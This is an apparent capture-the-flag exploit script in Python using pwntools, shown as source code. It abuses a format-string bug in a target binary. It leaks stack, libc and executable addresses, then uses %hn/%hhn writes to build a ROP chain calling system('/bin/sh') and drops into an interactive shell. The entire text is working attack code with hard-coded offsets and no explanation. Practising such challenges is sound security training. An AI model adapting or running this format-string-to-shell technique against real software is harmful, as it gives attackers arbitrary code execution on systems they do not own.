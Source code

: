 ```python
brva 0x0000000000001381
brva 0x00000000000013A7
c
"""

p = start()

# ==================== EXPLOIT ====================


def exploit():
    p.recvline()
    input()
    s(b"%112c%*9$c%13$n".ljust(0x100, b"\0"))
    s(b".%21$lln".ljust(0x100, b"\0"))
    s(f"%{0x2887}c%9$hn".encode().ljust(0x100, b"\0"))

    p.send(b"%11$p %12$p %16$p %50c".ljust(0x100, b"\x00"))
    p.recvuntil(b"0x")
    stack = int(p.recvuntil(b" "), 16) - 0xD8
    libc.address = int(p.recvuntil(b" "), 16) - 0x2A3B8
    exe.address = int(p.recvuntil(b" "), 16) - 0x12E4
    info(f"stack= {hex(stack)} libc: {hex(libc.address)} exe: {hex(exe.address)}")
    pop_rdi = libc.address + 0x00000000000CEE4D
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    system = libc.sym.system
    info(f"bin_sh: {hex(bin_sh)}")
    info(f"system: {hex(system)}")
    info(f"pop: {hex(pop_rdi)}")

    ret = exe.address + 0x12E3

    def write_v(target, val):
        p.send(f"%{target&0xffff}c%11$hhn".encode().ljust(0x100, b"\0"))
        p.send(f"%{val&0xffff}c%31$hn".encode().ljust(0x100, b"\0"))
        p.send(f"%{(target+2)&0xff}c%11$hhn".encode().ljust(0x100, b"\0"))
        p.send(f"%{(val>>16)&0xffff}c%31$hn".encode().ljust(0x100, b"\0"))
        p.send(f"%{(target+4)&0xff}c%11$hhn".encode().ljust(0x100, b"\0"))
        p.send(f"%{(val>>32)&0xffff}c%31$n".encode().ljust(0x100, b"\0"))

    sleep(0.5)
    p.send(f"%{stack&0xffff}c%11$hn".encode().ljust(0x100, b"\0"))
    sleep(0.5)
    write_v(stack + 8, pop_rdi)
    sleep(0.5)
    write_v(stack + 16, bin_sh)
    sleep(0.5)
    write_v(stack + 24, system)
    sleep(0.5)
    p.send(f"%{stack&0xff}c%11$hhn".encode().ljust(0x100, b"\0"))
    sleep(0.5)
    p.send(f"%{ret&0xffff}c%31$hn".encode().ljust(0x100, b"\0"))

    p.interactive()


if __name__ == "__main__":
    exploit()

```
